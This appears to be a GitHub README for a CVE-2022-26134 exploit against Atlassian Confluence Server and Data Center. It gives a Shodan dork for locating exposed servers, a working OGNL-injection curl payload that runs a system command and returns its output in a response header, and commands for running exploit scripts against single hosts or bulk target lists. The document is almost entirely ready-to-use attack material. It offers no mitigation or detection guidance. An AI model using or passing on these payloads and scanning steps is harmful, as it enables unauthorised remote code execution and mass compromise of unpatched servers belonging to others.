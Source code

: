 # CVE-2022-26134
Confluence Server and Data Center RCE
- Shodan dork
```
http.favicon.hash:-305179312
```

- Curl PoC

```
curl -v http://target_IP:8090/%24%7BClass.forName%28%22com.opensymphony.webwork.ServletActionContext%22%29.getMethod%28%22getResponse%22%2Cnull%29.invoke%28null%2Cnull%29.setHeader%28%22X-Cmd-Response%22%2CClass.forName%28%22javax.script.ScriptEngineManager%22%29.newInstance%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22var%20d%3D%27%27%3Bvar%20i%20%3D%20java.lang.Runtime.getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%3B%20while%28i.available%28%29%29d%2B%3DString.fromCharCode%28i.read%28%29%29%3Bd%22%29%29%7D/
```
or
```
curl -v http://target_IP:8090/${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-Cmd-Response",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("var d='';var i = java.lang.Runtime.getRuntime().exec('whoami').getInputStream(); while(i.available())d+=String.fromCharCode(i.read());d"))}/
```
 
- Usage

Exploit single target
```
python3 exploit.py https://target.com CMD
```
```
python3 exploit2.py -u http://xxxxx.com -c id
```
Exploit multi-targets
```
python3 exploit2.py -f urls.txt -p -c id
```
<!--
```
 python3 exploit.py https://target.com CMD
```
-->
